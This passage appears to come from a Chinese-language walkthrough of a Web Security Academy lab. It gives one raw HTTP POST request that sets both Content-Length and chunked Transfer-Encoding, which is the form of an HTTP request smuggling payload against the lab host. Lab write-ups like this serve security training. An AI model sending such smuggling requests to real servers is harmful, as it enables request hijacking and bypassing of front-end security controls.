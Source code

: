 [![](assets/1698897445-b55a1444ee9e8ed75e3bfecf7258a814.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191129014911.png)

发送以下数据包一次：

```bash
POST / HTTP/1.1
Host: ac7a1f141fadd93d801c469f005500bf.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=f6c7ZBB52a6iedorGSywc8jM6USu4685
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 178
Transfer-Encoding: chunked

0
```